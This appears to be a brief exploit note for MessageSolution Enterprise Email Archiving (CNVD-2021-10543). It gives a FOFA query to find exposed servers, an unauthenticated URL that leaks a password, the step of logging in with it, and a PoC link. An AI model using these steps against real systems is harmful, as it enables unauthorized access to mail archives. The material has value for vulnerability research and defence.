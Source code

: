 <languages  />

Vulnerability Impact
--------------------

MessageSolution Enterprise Mail Archive Management System EEA

FOFA
----

    title="MessageSolution Enterprise Email Archiving (EEA)"

Exploit
-------

Visit the following Url

    http://xxx.xxx.xxx.xxx/authenticationserverservlet/

![](Xnip2021-03-22_15-06-00.jpg "Xnip2021-03-22_15-06-00.jpg")

Use the obtained password to log in to the system

![](Xnip2021-03-22_15-09-59.jpg "Xnip2021-03-22_15-09-59.jpg")

POC
---

<https://github.com/Henry4E36/CNVD-2021-10543>